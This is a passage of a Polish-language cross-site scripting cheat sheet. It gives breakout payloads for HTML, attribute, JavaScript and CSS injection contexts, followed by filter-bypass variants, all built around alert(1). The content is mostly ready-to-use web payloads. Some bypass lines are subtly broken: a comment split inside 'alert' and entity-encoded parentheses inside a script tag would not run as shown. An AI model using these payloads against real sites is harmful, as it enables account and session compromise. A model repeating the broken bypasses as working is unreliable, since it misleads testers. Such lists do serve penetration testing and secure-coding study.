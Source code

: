 ### 4. Dostosowanie payloadów
- Wybierz odpowiednie techniki obejścia
- Testuj różne kodowania
- Używaj kontekstowych payloadów

## 🎭 KONTEKSTY WSTRZYKNIĘĆ {#konteksty}

### HTML Context
```html
<!-- Podstawowy HTML -->
<div>USER_INPUT</div>
Payload: <script>alert(1)</script>

<!-- Komentarz HTML -->
<!-- USER_INPUT -->
Payload: --><script>alert(1)</script><!--
```

### Attribute Context
```html
<!-- Wartość atrybutu -->
<div title="USER_INPUT">
Payload: " onmouseover="alert(1)" "

<!-- Atrybut href -->
<a href="USER_INPUT">
Payload: javascript:alert(1)
```

### JavaScript Context
```javascript
// String w JS
var data = "USER_INPUT";
Payload: ";alert(1);//

// Zmienna w JS
var user = USER_INPUT;
Payload: alert(1)
```

### CSS Context
```css
/* CSS style */
.class { color: USER_INPUT; }
Payload: red;}</style><script>alert(1)</script><style>
```

## 🛡️ OBEJŚCIA ZABEZPIECZEŃ {#obejscia}

### WAF Bypass
```html
<!-- Case variation -->
<ScRiPt>AlErT(1)</ScRiPt>

<!-- Encoding -->
<script>alert&#40;1&#41;</script>

<!-- Comments -->
<script>al/**/ert(1)</script>

<!-- Concatenation -->
<script>window['al'+'ert'](1)</script>
```